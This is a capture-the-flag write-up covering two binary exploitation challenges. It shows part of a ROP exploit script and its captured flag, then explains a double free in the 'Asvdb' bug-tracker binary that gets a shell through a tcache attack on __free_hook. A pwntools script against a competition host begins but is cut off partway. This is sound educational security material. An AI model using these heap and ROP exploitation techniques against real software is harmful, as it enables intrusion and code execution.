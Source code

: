 ```python=
    fd = int(sys.argv[1])
time.sleep(1)
payload = 'ASIS{N0T_R34LLY_4_FL4G}\x00'.ljust(0x20, 'a')
payload += flat([buf-0x400, pop_rdi, 0, pop_rsi_r15, buf-0x400, 0, pop_rdx, 0x400, read_plt, pop_rdi, fd, pop_rsi_r15, buf-0x400, 0, pop_rdx, 0x400, write_plt, main_exit])
r.sendline(payload)

time.sleep(1)
payload = 'TRANSMISSION_OVER\x00'.ljust(0x28, 'a')
payload += flat([one_gadget])
r.sendline(payload)
r.interactive()
```

flag : `ASIS{2655b2e6fa6861246c9423c75d76c0e3}`

### Asvdb

FWEASD

In this chal we can 
1. add bug, which will allocate a bug struct
2. free bug, which will free(title) -> free(description) -> free(bug) -> clear pointer to bug
3. show bug, which will print all the content in a bug struct
```cpp=
// malloc(0x20)
struct bug{
    int year;
    int id;
    char *title = malloc(0x40);
    char *description = malloc(size);
    int severity;
};
```
we can input the `size`, if it smaller than 1 or it is bigger than 0xff, the `bug` will still be allocate, however the `description` pointer won't be overwrite. Then we can call free to trigger double free, thus we can do fast bin dup attack.
Additionally, this is deployed in Ubuntu18.04, which use tcache, so we can simply malloc to arbitary place. I malloc to `__free_hook` and overwrite it with a buf address, and the buf's content is `"/bin/sh\x00"`, then trigger free to get shell.

Exploit script : 
```python=
from pwn import *

host = '37.139.17.37'
port = 1337

context.arch = 'amd64'
r = remote(host, port)

def add(year, id, title, size, description, severity):
    r.recvuntil('>')
    r.sendline('1')
    r.recvuntil(':')
    r.sendline(str(year))
    r.recvuntil(':')
    r.sendline(str(id))
    r.recvuntil(':')
    if len(title) == 63:
        r.send(title)
    else:
        r.sendline(title)
    r.recvuntil(':')
    r.sendline(str(size))
```